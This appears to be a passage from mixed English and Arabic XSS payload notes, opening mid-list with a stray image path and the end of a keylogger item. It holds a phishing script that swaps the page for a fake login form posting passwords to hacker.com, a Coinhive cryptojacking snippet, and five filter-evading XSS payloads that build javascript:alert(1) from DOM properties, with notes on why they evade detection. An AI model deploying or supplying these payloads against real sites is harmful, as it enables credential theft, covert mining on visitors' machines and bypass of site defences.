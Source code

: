 - Logs every keystroke and sends it to the hacker.

#### **2. Phishing**

```html
<script>  
  document.body.innerHTML = `  
    <form action="https://hacker.com/steal" method="POST">  
      <input type="password" name="password" placeholder="Enter password">  
      <button>Submit</button>  
    </form>  
  `;  
</script>  
```

- Replaces the page with a fake login form.

#### **3. Cryptojacking**

```html
<script src="https://coinhive.com/lib/miner.js"></script>  
<script>  
  const miner = new CoinHive.Anonymous('YOUR_MONERO_ADDRESS');  
  miner.start();  
</script>  
```

## الموقع مع تنبيه أولي (Location with Leading Alert)

{   #ideas_for_url / #XSS_DOM  }
##### **الشرح البسيط:**
تُستخدم لتكوين `javascript:alert(1)` عبر خصائص DOM مثل `innerHTML` أو `previousSibling.nodeValue` مع إضافة تنبيه أولي لتضليل المرشحات.

##### **الأكواد:**
```
`-alert(1)<javascript:`/onmouseover=location=tagName+previousSibling.nodeValue>hoverme!
`-alert(1)<javas/onmouseover=location=tagName+innerHTML+previousSibling.nodeValue>cript:`hoverme!
<alert(1)<!--/onmouseover=location=innerHTML+outerHTML>javascript:1/*hoverme!*/</alert(1)<!-->
<j/1="*/""-alert(1)<!--/onmouseover=location=innerHTML+outerHTML>javascript:/*hoverme!
*/"<j/1=/alert(1)//onmouseover=location=innerHTML+previousSibling.nodeValue+outerHTML>javascript:/*hoverme!
```

##### **لماذا يعمل؟**
- تستخدم خصائص DOM لتكوين `javascript:alert(1)`.
- التعليقات (`<!-- -->`) والعلامات المخصصة تُعقد الكشف.
- يتطلب تفاعل (`onmouseover`).

##### 🔎 **الفكرة:**

- نستغل عناصر HTML + خصائص DOM (زي `tagName`, `previousSibling.nodeValue`) لتكوين سلسلة `javascript:alert(1)`.
    
- يتم التنفيذ عند حدث مثل `onmouseover`.
    